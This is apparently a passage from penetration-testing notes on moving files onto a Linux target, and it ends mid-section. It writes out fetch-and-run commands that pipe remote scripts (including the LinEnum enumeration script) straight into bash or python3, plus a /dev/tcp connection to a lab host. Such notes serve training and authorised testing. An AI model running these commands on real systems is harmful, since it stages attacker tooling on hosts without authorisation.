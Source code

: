 ### **Fileless Download with wget**

{% code overflow="wrap" %}
```
wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

### **Download a File Using cURL**

{% code overflow="wrap" %}
```
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### **Fileless Download with cURL**

{% code overflow="wrap" %}
```
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Download with Bash (/dev/tcp)

### **Connect to the Target Webserver**

{% code overflow="wrap" %}
```
exec 3<>/dev/tcp/10.10.10.32/80
```
{% endcode %}
